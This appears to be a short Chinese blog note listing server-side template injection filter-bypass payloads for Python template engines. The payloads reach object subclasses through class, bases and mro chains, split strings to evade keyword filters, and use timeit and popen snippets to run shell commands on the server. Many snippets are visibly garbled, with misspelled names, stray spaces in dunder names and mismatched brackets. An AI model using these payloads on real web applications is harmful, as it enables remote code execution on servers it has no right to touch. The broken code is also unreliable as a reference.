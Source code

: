 ```yaml
---
title:一些绕过技巧
data:2020-12-08
---
```


# 过滤[]等括号
使用gititem绕过
```
1. 原poc{{".class.bases[0]}}
2. 绕过后{{"".class.bases.gititem(0)}}
```

# 过滤了subclasses
用拼凑法
```
1. 原poc{{"".class.bases[0].subclasses()}}
2. 绕过{{"".class.bases[0]'subcla'+'sses'}}
```

# 过滤了class
使用session绕过
```
{{session['cla'+'ss'].bases[0].bases[0].bases[0].bases[0].subclaasses()[118]}}
```
多个bases[0]是因为一直向上找object类。用mro代替更方便

```
{{session['_ _'cla'+'ss__'] . _ _mro_ _[12]}}
或
{{request{'_ _cl'+'ass_ _'] . _ _mro_ _[12]}}
```

# timeit姿态
```
import timeit
tineit . timeit( " _ _import_ _( ' os ' ) . system( ' dir ' )" , number=1)

import platfrom
print platfrom . popen( ' dir ' ) . read()
```

[参考](https://blog.csdn.net/qq_40800734/article/details/107011517)